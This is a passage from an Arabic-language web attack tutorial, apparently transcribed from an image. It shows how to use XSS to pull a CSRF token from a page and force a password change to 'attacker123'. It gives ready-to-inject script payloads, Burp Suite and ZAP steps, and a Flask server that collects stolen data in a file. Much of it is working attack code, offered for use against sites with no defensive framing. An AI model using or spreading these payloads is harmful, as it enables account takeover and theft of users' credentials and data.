     ```
  - الكود هيغير الإيميل ويسرق بيانات المستخدم (زي الاسم أو التوكن) ويبعتها لسيرفرك.

#### **مثال عملي 3: استخراج CSRF Token باستخدام XSS**
لو الموقع بيستخدم CSRF Token، ممكن تستخدم XSS عشان تستخرج الـ Token من الصفحة ثم تنفذ طلب CSRF.
- **كود XSS**:
  ```javascript
  // استخراج CSRF Token من حقل مخفي في النموذج
  var token = document.querySelector('input[name="csrf_token"]').value;

  // تنفيذ طلب CSRF
  var xhr = new XMLHttpRequest();
  xhr.open('POST', '/change-password', true);
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send('new_password=attacker123&csrf_token=' + token);
  ```
- **حقن الكود**:
  - أدخل الكود في حقل XSS:
    ```html
    <script>
      var token = document.querySelector('input[name="csrf_token"]').value;
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/change-password', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('new_password=attacker123&csrf_token=' + token);
    </script>
    ```
  - الكود هيستخرج الـ Token ويغير كلمة السر حتى لو الموقع محمي.

#### **استخدام أدوات**:
- **Burp Suite**:
  - سجّل طلبات الموقع (POST/GET) وحدد الطلبات الحساسة.
  - استخدم **Engagement Tools > Generate CSRF PoC** لإنشاء كود CSRF أساسي، ثم دمجه مع XSS.
  - مثال PoC مع XSS:
    ```html
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/change-password', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('new_password=attacker123');
    </script>
    ```
- **OWASP ZAP**:
  - استخدم ZAP لإيجاد ثغرات XSS تلقائياً.
  - جرب حقن كود JavaScript زي المثال السابق.
- **Python Flask** (لإنشاء سيرفر يستقبل البيانات المسروقة):
  ```python
  from flask import Flask, request

  app = Flask(__name__)

  @app.route('/steal')
  def steal_data():
      data = request.args.get('data')
      with open('stolen.txt', 'a') as f:
          f.write(data + '\n')
      return 'OK'

  if __name__ == '__main__':
      app.run(host='0.0.0.0', port=5000)
  ```
  - ارفع الكود على سيرفرك، واستخدمه لتخزين البيانات المسروقة.
